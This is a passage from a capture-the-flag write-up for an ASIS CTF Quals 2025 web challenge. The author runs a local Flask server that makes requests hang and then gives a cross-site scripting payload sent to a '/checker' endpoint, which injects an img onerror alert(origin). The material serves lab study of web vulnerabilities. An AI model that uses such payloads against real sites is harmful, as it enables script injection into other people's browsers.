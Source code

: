 ![](https://github.com/siunam321/CTF-Writeups/blob/main/ASIS-CTF-Quals-2025/images/Pasted%20image%2020250909155552.png)

If we run this Flask web application and our `url` is pointing to it, we should be able to hang the request:

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-I-Revenge!]-[2025/09/09|15:58:07(HKT)]
└> python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.3.203:5000
[...]
```

Payload:

```html
/checker?url=http://192.168.3.203:5000/sleep%3f<<i>img src onerror=alert(origin)</i>>
```
